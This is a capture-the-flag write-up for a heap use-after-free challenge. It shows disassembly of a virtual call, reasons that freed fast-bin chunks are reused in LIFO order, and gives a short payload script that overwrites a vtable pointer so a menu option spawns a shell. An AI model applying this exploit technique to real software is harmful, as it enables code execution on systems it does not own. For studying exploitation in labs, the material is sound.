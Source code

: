 If we look at this assembly code, we know that the offset address of option 1 called is 8. That's the `introduce` function.
```
<+265>:	mov    rax,QWORD PTR [rbp-0x38]
<+269>:	mov    rax,QWORD PTR [rax]
**<+272>:	add    rax,0x8**
<+276>:	mov    rdx,QWORD PTR [rax]
<+279>:	mov    rax,QWORD PTR [rbp-0x38]
```
`$rbp-0x38` contains heap address which points to 0x401570. If i'm not mistaken, this is first entry of virtual pointer table in this binary and it points to `get_shell` function. If I can manage to change the pointer to 0x401568 (0x401570 - 8), I'll beat it.

According to this site: https://medium.com/@c0ngwang/the-art-of-exploiting-heap-overflow-part-5-934192cba269, freed chunks in heap (if it's a fast bin) will ordered in LIFO order.
Because we have 2 objects, `m` and `w` respectively, and I have to fill at least `m` object, I sent the `evil payload` 2 times. First one will fill in `w` object, and the second one will fill `m` object.
```
evil = pack("II", 0x401570-8, 0x0000000)
p.sendline('2')
p.sendline(evil)
p.recv(1024)
p.sendline('2')
p.sendline(evil)
p.recv(1024)
```
From here the heap `$rbp-0x38` points to must be filled by address of -8 byte shifted.
So if I choose option 1, I will get the shell.

SPOILER ALERT!!!

